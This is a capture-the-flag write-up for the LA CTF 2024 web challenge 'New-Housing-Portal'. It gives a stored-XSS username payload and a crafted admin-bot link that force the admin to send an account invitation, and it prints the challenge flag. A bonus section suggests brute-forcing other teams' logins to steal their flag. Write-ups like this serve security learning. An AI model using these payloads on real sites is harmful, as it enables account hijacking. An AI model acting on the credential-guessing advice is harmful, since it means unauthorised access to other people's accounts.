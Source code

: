 ```yaml
---
title: New-Housing-Portal
type: writeup
date: 2024-02-18T20:05:23+02:00
description: Writeup for New-Housing-Portal [LA CTF 2024]
author: H0N3YP0T
tags:
- web
draft: false
---
```

___

## Challenge Description

After that old portal, we decided to make a new one that is ultra secure and not based off any real housing sites. Can you make Samy tell you his deepest darkest secret?

## Intuition

When I register to the website I can exploit an XSS vulnerability on my username. In order to get the flag I need to get an invitation from
the admin. In order to force the admin to send me an invitation I probably have to use an SSRF vulnerability to make him use the invitation request API. 
To resume, I can use the XSS vulnerability chained with an SSRF to get the flag. The xss payload used to discover the vulnerability is the following:

```html
<img src=x onerror="alert('vulnerable')">
```

![XSS](/images/la_ctf_2024/xss.png)

## Solution

First I need to register using the following XSS payload as username:

```html
<img src=x onerror="var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/finder',true);
req.send();
function handleResponse(d) {
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/finder', true);
    changeReq.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
    changeReq.send('username=brole');
};">
```

The above payload use an SSRF exploit to call the invitation request API and send an invitation to the user `brole`.
Then, I will register another account which will receive the invitation of the admin (brole in this case). The next step is to 
use the admin bot link and send him the following link which is the URL to my XSS vulnerable profile:

```http request
https://new-housing-portal.chall.lac.tf/finder/?q=<img src=x onerror="var req = new XMLHttpRequest(); req.onload = handleResponse; req.open('get','/finder',true); req.send(); function handleResponse(d) {     var changeReq = new XMLHttpRequest();     changeReq.open('post', '/finder', true);     changeReq.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');     changeReq.send('username=brole'); };">

```
The bot will visit the profile and in background it will send the invitation to the user `brole`. After that, I will receive the invitation and I can use it to get the flag.

![XSS flag](/images/la_ctf_2024/secret.png)

### BONUS

A very smart way to find the flag (but smaller chance to succeed) is to brute force a very stupid username and password and
pray. If you are lucky enough you will find the credentials used by another team that already got the admin invitation and therefore
steal their flag 😈.

### Flag

`lactf{b4t_m0s7_0f_a77_y0u_4r3_my_h3r0}`


